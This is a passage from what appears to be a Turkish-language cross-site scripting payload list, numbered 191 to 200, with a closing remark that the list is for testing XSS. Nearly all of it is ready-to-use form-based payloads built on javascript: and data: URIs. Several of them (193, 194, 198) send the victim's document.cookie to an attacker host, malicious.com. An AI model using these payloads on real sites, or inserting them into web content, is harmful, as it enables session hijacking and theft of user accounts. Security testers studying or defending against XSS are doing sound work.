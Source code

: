## Form Payload'ları
191. `<form action="javascript:alert(1)"><input type="submit" value="Submit"></form>`
192. `<form action="data:text/html,<script>alert(1)</script>"><input type="submit" value="Submit"></form>`
193. `<form action="javascript:fetch('https://malicious.com/?cookie=' + document.cookie)"><input type="submit" value="Submit"></form>`
194. `<form action="data:text/html,<script>fetch('https://malicious.com/?cookie=' + document.cookie)</script>"><input type="submit" value="Submit"></form>`
195. `<form action="javascript:eval('alert(1)')"><input type="submit" value="Submit"></form>`
196. `<form action="data:text/html,<script>eval('alert(1)')</script>"><input type="submit" value="Submit"></form>`
197. `<form action="data:text/html,<script>Object.defineProperty(window, 'alert', { value: function() { document.body.innerHTML = '<img src=x onerror=alert(1)>' } })</script>"><input type="submit" value="Submit"></form>`
198. `<form action="data:text/html,<script>fetch('https://malicious.com/?cookie=' + document.cookie)</script>"><input type="submit" value="Submit"></form>`
199. `<form action="data:text/html,<script>eval('alert(document.cookie)')</script>"><input type="submit" value="Submit"></form>`
200. `<form action="data:text/html,<script>document.body.innerHTML = '<img src=x onerror=alert(2)>'</script>"><input type="submit" value="Submit"></form>`

Bu liste ile XSS (Cross-Site Scripting) türlerini test edebilirsiniz. Her payload'un bir XSS açığını test etme potansiyeli vardır, bu nedenle uygulamanızda test ederken dikkatli olun ve güvenlik önlemleri alın.
